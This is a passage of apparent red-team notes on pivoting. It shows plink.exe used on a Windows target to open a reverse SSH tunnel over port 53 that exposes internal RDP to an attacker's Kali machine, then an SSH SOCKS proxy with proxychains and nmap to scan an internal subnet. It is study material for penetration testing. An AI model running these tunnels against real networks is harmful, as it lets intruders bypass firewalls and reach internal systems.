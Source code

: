 2- Plink.exe
```
# kali Machine // 10.0.0.1
nano /etc/ssh/sshd_config
    Port 53

# Target Windows Machine
// let’s assume that port 3389 is open internaly only.
nc -nvlp 3389
// Now we will connect to my kali machine through ssh on port 53, then we will
// connect port 4444 on kali with port 3389 on the target windows machine.
cmd.exe /c echo y | plink.exe -ssh -l user -pw pass -P 53 -R 10.0.0.1:4444:127.0.0.1:3389 10.0.0.1
// Now try to connect to port 4444 on kali machine.
```

### Dynamic Port Forwarding

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen17.png?raw=true)

```
# Target Machine // 10.0.0.1
// SSH open on any port for example 22.

# Kali Machine
// Listen on port 9050 and any thing come to this port send it to the webserver on port 22.
ssh -D 127.0.0.1:9050 user@10.0.0.1 -p 22

nano /etc/proxychains.conf
    socks4 127.0.0.1 9050

proxychains nmap -sn 192.168.1.0/24
```
